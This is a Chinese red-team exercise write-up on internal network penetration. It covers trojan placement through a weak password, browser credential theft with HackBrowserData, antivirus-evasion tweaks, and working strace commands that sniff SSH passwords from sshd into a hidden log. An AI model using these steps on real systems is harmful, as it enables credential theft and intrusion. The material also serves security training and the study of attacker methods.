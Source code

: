 #### 案例

晚上下班有小伙伴进入目标单位，插入网线扫描内网，发现内网办公网络存在主机弱口令，通过PUT木马使靶机A上线。在第一次尝试扫描内网后，发现没有被拦截，猜测没有检测流量，所以后面就大胆扫描内网。

## 0x04 内网渗透

做好权限维持之后进行信息收集，主要分为以下几步。

  1. 收集目标机器上安装了哪些软件、存在哪些进程，通过进程查看存在哪些杀毒软件。

  2. 使用HackBrowserData抓取浏览器的一些信息，例如浏览器历史记录、cookie、保存的账号密码（在使用过程中发现360安全浏览器是抓不到密码的）等，一般情况下能抓到系统的密码

  3. 翻文件，说不定会存在一些密码文档，例如xxx系统的密码，发现内网的一些网段。

上述说的 `HackBrowserData`工具已经被杀了，接着来说一说免杀的方法

将go引用的包名替换一下，修改特殊的字符串特征并加一个启动参数，这样基本上就不杀了

### 护网横向移动优先攻击策略

内网往往非常大，快速定位和找到关键节点是非常重要的，选择的主要原则为:

  * 快速掌握目标网络架构、网络设备及集权系统（堡垒机、运维管理机、性能监控系统、集中管控系统、域控等）

  * 查找配置文件、系统日志、建设方案、wiki（在wiki中可能会存在网络架构图）、托管代码等，获取敏感信息，为拿下核心设备打下基础。

### linux抓密码

通过外网打点拿到一个shell之后，如果需要进一步渗透，拿下这台主机的密码更是重中之重，内网渗透的本质就是信息收集，而登录凭证的收集是信息收集的重点。

#### 1.利用strace抓密码

`strace`是linux中的调试工具，可通过附加到进程来调试正在运行的进程， `strace`记录一个正在运行的程序正在执行的系统调用以及参数。

    
    
    # 查看  
    cat /proc/sys/kernel/yama/ptrace_scope  
    # 修改  
    echo 0 > /proc/sys/kernel/yama/ptrace_scope 或者 sysctl kernel.yama.ptrace_scope=0

root权限执行

    
    
    (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

查找用户名和密码的正则表达式为`read\(6, ".+\\0\\0\\0\\.+"`

    
    
    # 查找用户名和密码  
    grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180501.png)
